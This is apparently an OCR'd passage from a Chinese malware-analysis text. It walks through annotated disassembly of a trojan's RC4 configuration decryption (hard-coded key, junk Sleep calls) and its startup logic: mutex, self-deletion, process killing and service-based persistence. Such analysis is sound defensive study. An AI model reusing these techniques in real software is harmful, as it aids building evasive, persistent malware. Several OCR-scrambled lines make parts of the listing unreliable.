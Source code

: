 //cryptInfo函数实现:

`.text:00406A30 sub esp, 10Ch     .text:00406A36 push esi     .text:00406A37 mov esi, ds:Sleep ; 干扰代码   .text:00406A3D push 0 ; dwMilliseconds   .text:00406A3F mov [esp+114h+key], 'M'     .text:00406A44 mov [esp+114h+var_10B], 'o'    .text:00406A49 mov [esp+114h+var_10A], 't'    .text:00406A4E mov [esp+114h+var_109], 'h'    .text:00406A53 mov [esp+114h+var_108], 'e'    .text:00406A58 mov [esp+114h+var_107], 'r'    .text:00406A5D mov [esp+114h+var_106], '3'    .text:00406A62 mov [esp+114h+var_105], '6'    .text:00406A67 mov [esp+114h+var_104], '0'    .text:00406A6C mov [esp+114h+var_103], 0 ; 初始化局部变量key为Monther360   .text:00406A71 call esi ; Sleep ; 干扰代码   .text:00406A73 lea eax, [esp+110h+key]     .text:00406A77 push 0Ah ; 参数4：key长度   .text:00406A79   .text:00406A7D lea   push ecx, [esp+114h+sbox]   eax    ; 参数3:key   .text:00406A7E push ecx ; 参数2:保存密钥缓冲区地址   .text:00406A7F mov ecx, dword_409AD4 ; 参数1：全局对象this指针   .text:00406A85   钥 call rc4_init ; 调用r c4初始化函数，根据ke y初始化密   .text:00406A8A push 0 ; dwMilliseconds   .text:00406A8C call esi ; Sleep ; 干扰代码   .text:00406A8E mov edx, [esp+110h+len]     .text:00406A95 mov eax, [esp+110h+buff]     .text:00406A9C and edx, 0FFFFh     .text:00406AA2   .text:00406AA6 lea   push ecx, [esp+110h+sbox]   edx    ; 参数4：要解密数据的缓冲区长度   .text:00406AA7 push eax ; 参数3：要解密数据的缓冲区   .text:00406AA8 push ecx ; 参数2：密钥缓冲区地址   .text:00406AA9 mov ecx, dword_409AD4 ; 参数1：全局对象this指针   .text:00406AAF call rc4_cryp ; 调用RC4加密函数，根据密钥解密数据   .text:00406AB4 push 0 ; dwMilliseconds   .text:00406AB6 call esi ; Sleep ; 干扰代码   .text:00406AB8 pop esi     .text:00406AB9 add esp, 10Ch     .text:00406ABF retn`   

代码清单 16-1 主要是将全局数据区的应用程序配置信息通过 RC4 加密算法进行解密，解密后的信息如下。配置信息 1：

`{       "服务器IP地址", "服务器通信密码", 2110,       2110,       "Mother360", "V_130305"   };   `

配置信息 2：

`{       "YYYYYYYYYYYY",       "Yugqqu qekcaigu",       "Igaoqa ymusuyukeamucgowws", "%ProgramFiles%\\Rumno Qrstuv", "SB360.exe",       "默认分组",       "Nmbbre hjveaika", 0,       0,       0,       0,       0   };   `

启动过程代码片段 2 见代码清单 16-2。

代码清单16-2  启动过程代码片段2

`.text:00406CDC   .text:00406CDE push call 1   create_event    ; 创建互斥体，防止病毒重复运行   .text:00406CE3 add esp, 14h    .text:00406CEE   .text:00406CF4 cmp   jz dword_40955C, ebx   short loc_406CFB    ; 根据配置信息决定是否删除病毒自身的文件   .text:00406CF6   .text:00406D07 call   retn delete_me   10h    ; 退出程序   .text:00406D2C push 104h ; nSize   .text:00406D31 push ecx ; lpDst   .text:00406D32 push offset Src ; lpSrc   .text:00406D37 call ds:ExpandEnvironmentStringsA   ; 配置信息的%SystemRoot%路径扩充为C:WINDOWS\   .text:00406D40 mov ecx, dword_409AD4   .text:00406D46 lea edx, [ebp+Dst]   .text:00406D4C push edx   .text:00406D4D push offset Src   .text:00406D52 call strcpy ; 复制扩充后的路径到配置信息   .text:00406D5A mov ecx, dword_409AD4   .text:00406D60 push offset Src   .text:00406D65 call sub_4044D0 ; 调用函数删除路径尾部的'\'字符   .text:00406DA5 push offset asc_409460 ; "%"   .text:00406DAA lea eax, [ebp+Format]   .text:00406DAD push offset Src   .text:00406DB2 push eax ; Format   .text:00406DB3 push offset Dest ; Dest   .text:00406DB8 call sprintf ; 格式化目录和程序名称字符串   .text:00406DBD add esp, 10h   .text:00406DC3 mov ecx, dword_409AD4   .text:00406DC9 push offset unk_4090E0   .text:00406DCE push offset unk_409C34   .text:00406DD3 call strcpy ; 获取配置信息和服务器通信的密码   .text:00406DDB cmp dword_409568, ebx   .text:00406DE1 jz short loc_406DE8 ; 根据配置信息确定是否关闭进程   .text:00406DE3 call KillProcess   .text:00406DE8 mov al, byte_409560   .text:00406DED test al, al   .text:00406DEF jz loc_406FFF ; 判读是否重新安装   .text:00406E17 push 104h ; nSize   .text:00406E1C push ecx ; lpFilename   .text:00406E1D push ebx ; hModule   .text:00406E1E call ds:GetModuleFileNameA  ; 获取程序路径   .text:00406E27 mov ecx, dword_409AD4   .text:00406E2D lea edx, [ebp+Filename]   .text:00406E33 push offset Dest   .text:00406E38 push edx   .text:00406E39 call strcmp   .text:00406E3E test eax, eax ; 判断安装路径   .text:00406E40 jnz short loc_406EC0   .text:00406E42 mov al, byte_409560   .text:00406E47 mov word_409C10, 3   .text:00406E50 cmp al, 2   .text:00406E52 jnz short loc_406EB0 ; 类型为2表示以服务方式启动病毒   .text:00406E85 mov edi, ds:StartServiceCtrlDispatcherA ; 启动服务   .text:00406EB0 call run_main ; 直接方式运行病毒          .text:00406F25   .text:00406F2A push   call offset g_AppInfo   sub_4063F0    ; 写入服务版本安装时间信息到注册表   .text:00406F2F add esp, 1Ch     .text:00406F36 push offset a3 ; "+3"   .text:00406F3B push offset DisplayName ; lpDisplayName   .text:00406F40 lea ecx, [ebp+Dest]     .text:00406F46 push offset g_AppInfo ; lpServiceName   .text:00406F4B push ecx ; int   .text:00406F4C call InstallService ; 安装病毒服务   .text:00406F6D jnz short loc_406FBD ; 循环检查进程是否运行   .text:00406FC1   .text:00406FC8 cmp   jnz byte_409560, 1   short loc_406FDE    ;` 
